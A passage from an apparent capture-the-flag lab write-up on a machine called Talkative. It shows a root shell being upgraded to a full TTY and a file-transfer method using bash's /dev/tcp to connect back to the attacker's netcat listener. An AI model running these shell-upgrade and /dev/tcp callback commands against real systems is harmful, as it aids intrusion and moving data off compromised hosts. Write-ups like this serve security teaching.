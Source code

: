 
It's a shell:



    id
    uid=0(root) gid=0(root) groups=0(root)



Upgrade with [the script
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    script /dev/null -c bash
    Script started, file is /dev/null
    root@c150397ccd63:/app/bundle/programs/server# ^Z
    [1]+  Stopped                 nc -lnvp 445
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 445
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@c150397ccd63:/app/bundle/programs/server# 



## Shell as root on Talkative

### File Upload

#### Initial Enumeration

Again, I have a shell in a Docker container that is relatively empty.
`/root` has nothing of interest, and there are no folders in `/home`.

This container also has very limited tools. No `nc`, `wget`, `curl`,
which removes many of the standard ways I would upload files to a box.

The box does have `node`, `perl`, and `bash`, each of which would
provide ways to upload. I'll show `bash` since that's what I like best,
and it's most common to find in this scenario.

#### bash Upload

[This gist](https://gist.github.com/jadell/871512) gives a clean and
simple way to write to and from a socket using just bash.

To show this, I'll start `nc` listening on 9001 on my host. From
Talkative, I'll run `exec 3<>/dev/tcp/10.10.14.6/9001`, which returns
without any message. At `nc`, it's connected:



    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.155 60860

